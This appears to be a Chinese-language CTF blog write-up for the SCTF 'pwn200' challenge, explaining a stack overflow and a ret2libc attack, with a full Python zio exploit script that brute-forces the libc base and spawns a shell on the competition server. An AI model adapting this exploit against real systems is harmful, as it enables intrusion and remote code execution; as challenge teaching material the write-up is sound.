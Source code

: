 ```yaml
---
layout: post
title: SCTF pwn200 writeup
catagories: [ctf]
tags: [ctf, writeup, sctf]
---
```


> 栈上缓冲区溢出问题

第一次read时，最大能读16+1个字节，并且放到buf里，但buf到bytes只有16字节，
如果读17字节，并且最后一个字节是0xff的话，将会导致bytes的大小从16改为255,
接下来的比较通过后，程序还会read nbytes大小的字节到栈上,但此时我们已经可以
控制bytes的大小了，所以可以轻松覆盖eip。

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   pwn200
```

检查还发现NX（栈不可执行），所以我们采取rop的办法，因为出题方又给了libc.so
所以直接ret2libc吧，找system和/bin/sh的偏移地址，栈上这么布局：

```
ebp     :   BBBB
eip     :   systemaddr
ebp+8   :   DDDD
ebp+12  :   /bin/sh
```

我的方法不太优雅，当我读到栈上存放的`__libc_main_start`函数的地址后，因为程序
这时候已经被玩挂了，又重启。加载的libc.so的基址又有变化，所以上次读到的地址，这次
已经不太适用了。但我们已经基本上可以确定，libc基址的后3位和前3位，变化的主要是中间
两位。

所以我们采用暴力的方法，直到拿到shell.相信libc基址的随机范围大概就0x1ff范围大小。
某一次的地址，一定还会出现第二次的。

```python
#!/usr/bin/env python2

from zio import *
import struct

for i in range(0xffff):
    io = zio(('218.2.197.248', 10001), timeout=9999)
    #io = zio("./pwn200", timeout=9999)

    io.read_until("input name:")

    #raw_input()

    iinput = "syclover" + "\x00" 
    iinput += "A"*7
    iinput += "\xef"
    io.write(iinput)
    io.read_until(":")
    shellcode = ""
    shellcode += "A"*(0x9c-0xc)
    shellcode += struct.pack("I", 0x9c+4+20)*0x3
    #shellcode += "A"*8
    shellcode += "B"*4

    #remote
    a = 0x000194D3
    b = 0x000193E0
    libc_main   = 0xb75734d3 - ( a - b)
    libc_p      = 0x000193E0
    system_p    = 0x0003F430
    system      = libc_main + system_p - libc_p

    bin_sh_p    = 0x00160F58
    binsh       = libc_main + bin_sh_p - libc_p

    #local
    #a = 0x000194D3 
    #b = 0x000193E0
    #libc_main = 0xb7e454d3 - (a - b)
    #libc_p = 0x000193E0
    #system_p = 0x0003F060
    #system      = libc_main + system_p - libc_p

    #bin_sh_p    = 0x00161A58
    #binsh       = libc_main + bin_sh_p - libc_p

    #io.write(shellcode)
    shellcode += struct.pack("I", system)
    shellcode += "DDDD"
    shellcode += struct.pack("I", binsh)

    io.write(shellcode)
    print "\n"

    io.interact()
```
